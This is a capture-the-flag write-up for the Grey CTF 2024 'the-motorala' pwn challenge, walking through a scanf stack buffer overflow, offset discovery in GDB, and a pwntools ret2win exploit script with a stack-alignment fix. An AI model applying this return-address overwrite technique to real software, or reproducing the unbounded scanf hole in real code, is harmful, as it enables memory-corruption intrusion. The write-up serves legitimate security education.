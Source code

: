 ```yaml
---
title: Grey CTF Quals 24 "The Motorala"
date: 2024-04-24
description: Writeup for pwn/the-motorala from Grey CTF Quals 2024.
categories:
  - pwn
---
```


> i bet u wont guess my pin
> 
> Author: Elma

TL;DR - Buffer overflow allowing an overwrite of the return address to a vulnerable function. Simple ret2win challenge but with a stack alignment issue.

<!-- more -->

## Investigating

We're given a binary and a C source file again, looking at it we can see the following areas of interest:

```c title="chall.c" hl_lines="21-25"
...
void view_message() {
	int fd = open("./flag.txt", O_RDONLY);
	char* flag = calloc(0x50, sizeof(char));
	read(fd , flag, 0x50);
	close(fd);
	...
	printf("\n%s\n", flag);
	exit(0);
}

...

void login() {
	char attempt[0x30];
	int count = 5;

	for (int i = 0; i < 5; i++) {
		memset(attempt, 0, 0x30);
		printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
		printf("PIN: ");
		scanf("%s", attempt);
		if (!strcmp(attempt, pin)) {
			view_message();
		}
	}
	...
}
...
```

Pretty similar to the `#!c gets()` overflow, we can see `#!c scanf("%s", attempt)`, which is also vulnerable to buffer overflows. We can use the same technique to find the offset to the return address and overwrite it. To find the offset needed to get to the return address, we can use a cyclic pattern and GDB:

```
$ gdb -q chall
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  run
...

5 TRIES LEFT.
PIN: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...

[#0] Id 1, Name: "chall", stopped 0x401564 in login (), reason: SIGSEGV
```

And then we can use GEF's pattern search feature to look for the offset to get past RSP:

```
gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

## Exploitation

So what's next? Well, we need to figure out the address of `#!c view_message()` so we can simply get a flag print. Again, we can just do this in GDB:

```
gef➤  info func view_message
All functions matching regular expression "view_message":

Non-debugging symbols:
0x000000000040138e  view_message
```

So we have the address `#!c 0x40138e` to jump to. So let's test this real quick in GDB (we'll format the address as little-endian since we're on an x86-64 system):

```
gef➤  run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x8e\x13\x40")')
...
As you breached the final door to TACYERG's hideout, anticipation surged.
Yet, the room defied expectations – disorder reigned, furniture overturned, documents scattered, and the vault empty.
'Yet another dead end,' you muttered under your breath.
As you sighed and prepared to leave, a glint caught your eye: a cellphone tucked away under unkempt sheets in a corner.
Recognizing it as potentially the last piece of evidence you have yet to find, you picked it up with a growing sense of anticipation.
...

[#0] Id 1, Name: "chall", stopped 0x7ffff7e1a89b in buffered_vfprintf (), reason: SIGSEGV
```

So something went wrong, we got a segfault. I was honestly stumped here for a bit, one of my friends tried the same thing and was puzzled as well. After messing around, they tried a different call method. Instead of jumping into the `#!c view_message()` function, they jumped to the existing call to the function inside the `#!c login()` function as seen here:

```c title="chall.c" hl_lines="12"
...
void login() {
	char attempt[0x30];
	int count = 5;

	for (int i = 0; i < 5; i++) {
		memset(attempt, 0, 0x30);
		printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
		printf("PIN: ");
		scanf("%s", attempt);
		if (!strcmp(attempt, pin)) {
			view_message();
		}
	}
	...
}
...
```

To find this address, we can use GDB again:

```hl_lines="9"
gef➤  disas login
Dump of assembler code for function login:
	0x000000000040149f <+0>:     endbr64
	0x00000000004014a3 <+4>:     push   rbp
	...
	0x0000000000401537 <+152>:   test   eax,eax
	0x0000000000401539 <+154>:   jne    0x401545 <login+166>
	0x000000000040153b <+156>:   mov    eax,0x0
	0x0000000000401540 <+161>:   call   0x40138e <view_message>
	0x0000000000401545 <+166>:   add    DWORD PTR [rbp-0x4],0x1
	...
	0x0000000000401564 <+197>:   ret
End of assembler dump.
```

So instead of jumping to `#!c 0x40138e` (address of `#!c view_message()`), we can jump to `#!c 0x401540` instead. Testing this address locally worked, so let's put it all together:

```python title="exploit.py"
from pwn import *

p = process('./chall') # (1)

payload  = b'A' * 72     # fill stack until return address
payload += p64(0x401540) # address of the call to view_message()

p.sendlineafter('PIN: ', payload)
print(p.recvall().decode())
```

1. To send the actual payload to the server we can replace this with `#!py remote('challs.nusgreyhats.org', 30211)`.

Let's run it and get the flag:

```hl_lines="12"
$ python exploit.py
[+] Receiving all data: Done (609B)
[*] Closed connection to challs.nusgreyhats.org port 30211

After five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.


After several intense attempts, you successfully breach the phone's defenses.
Unlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.
The once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.

grey{g00d_w4rmup_for_p4rt_2_hehe}
```

And that's the flag!

???+ quote "Post Challenge Thoughts"
	After the competition, I checked to see if anyone else had similar issues. The author mentioned in the Discord:
	> moto 1 has stack alignment issues, so you have to do an extra step of padding your payload with a single ret

	Looking into the [official writeup](https://github.com/NUSGreyhats/greyctf24-challs-public/blob/main/quals/pwn/the-motorala/solution/solve.py), they did this by doing the following:
	```python
	payload  = b"A"*72       # fill stack until return address
	payload += p64(0x40101a) # address to a ret in <_init>
	payload += p64(0x40138e) # address of view_message()
	```

	Looking more into this on my own time, I found a pretty [good resource on stack alignment issues](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment)